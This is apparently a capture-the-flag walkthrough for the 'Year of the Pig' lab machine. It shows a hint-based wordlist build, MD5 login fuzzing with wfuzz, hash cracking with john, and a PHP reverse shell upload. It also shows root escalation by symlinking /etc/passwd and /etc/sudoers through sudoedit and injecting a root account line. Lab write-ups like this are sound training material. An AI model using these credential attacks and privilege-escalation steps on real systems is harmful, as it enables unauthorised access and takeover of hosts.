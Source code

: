 ### YearOfThePig


# portscan
```
22
80
```

name: marco, taylor

```admin login hint

Remember that passwords should be a memorable word, followed by two numbers and a special character

```

# Create custom list

Create list with words "words.txt"
create list with caracteres special

>for i in {10..99};do while read line;do echo $line$i;done < words.txt;done > words_num.txt

> while read line;do while read char;do echo $line$char;done < carac; done < words_num.txt > Final_wordlist.txt


with burp capture request

{"username":"marco","password":"1a1dc91c907325c69271ddf0c944bc72"}

password md5 encoded

>python3 md5hash.py Final_wordlist.txt final_hash.txt

>wfuzz -w final_hash.txt -H "User-Agent: Bypass" -X POST -d '{"username":"marco","password":"FUZZ"}' -u http://10.10.200.52/api/login --hw 4

> john hash --wordlist=Final_wordlist.txt --format=Raw-md5
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
# savoia21!        (?)


## {marco:savoia21!}

# connect SSH

> ssh marco@{ip}

##### Privilege escalation
```
-rw-------  1 www-data www-data       24576 Dec  8 07:12 admin.db

/etc/group
web-developers:x:1002:www-data,marco

Marco can add files in /var/www/html/ lets upload php_reverse_shell

gain www-data shell 

access sqlite3 admin.db - found 

select * from users;
58a2f366b1fd51e127a47da03afc9995|marco|ea22b622ba9b3c41b22785dcb40211ac
f64ccfff6f64d57b121a85f9385cf256|curtis|a80bfe309ecaafcea1ea6cb3677971f2

use john to crack hash

{curtis:Donald1983$}

sudo -l
Matching Defaults entries for curtis on year-of-the-pig:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH"

User curtis may run the following commands on year-of-the-pig:
    (ALL : ALL) sudoedit /var/www/html/*/*/config.php


we can create file 'config.php' with marco credential (web-developer)

use ln for link /etc/passwd

>ln -s /etc/passwd /var/www/html/*/*/config.php
> sudoedit /var/www/html/*/*/config.php

kali@machine> # openssl passwd -6 -salt nothing password

> sudoedit /var/www/html/*/*/config.php
hacker:$6$nothing$creXYt9aVGarMfNqn4XmctIp9BAzDfbCj9CUFelbTb0WiugUlxgVFBmzWzqpYjdVd7duTrAf5RsQhQe1kqo4H0:0:0::root:/bin/bash

> su hacker

root@year-of-the-pig:/#

====================================================================================================
```
## Another metod priv escalation
```
> ln -s /etc/sudoers /var/www/html/*/*/config.php
>sudoedit /var/www/html/*/*/config.php

Edit user privilege

curtis ALL=(ALL) ALL

>sudo su

root@year-of-the-pig:/# 
```



====================================================================================================
#### Another metod to create list 

>cewl http://10.10.197.153/ > cewl_list

>john -w=cewl_list --rules --stdout > cwel_uplist.txt

with hint.. add rule john
:$[0-9]$[0-9]$[!@#$%?.,&]

>john -w=cwel_uplist.txt --rules --stdout > cewl_listnum.txt
